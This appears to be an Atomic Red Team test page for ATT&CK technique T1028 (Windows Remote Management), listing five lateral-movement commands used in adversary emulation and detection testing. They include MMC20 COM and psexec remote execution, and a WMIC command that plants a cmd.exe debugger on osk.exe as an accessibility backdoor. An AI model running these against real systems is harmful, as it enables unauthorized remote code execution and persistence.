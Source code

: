 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

**Supported Platforms:** Windows



#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
Enable-PSRemoting -Force
```



<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|


#### Run it with `command_prompt`! 
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```



<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|


#### Run it with `command_prompt`! 
```
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```



<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|


#### Run it with `command_prompt`! 
```
psexec \\host -u domain\user -p password -s cmd.exe
```



<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | Test|
| remote_command | Command to execute on remote Host | String | ipconfig|


#### Run it with `powershell`! 
```
invoke-command -ComputerName #{host_name} -scriptblock {#{remote_command}}
```



<br/>

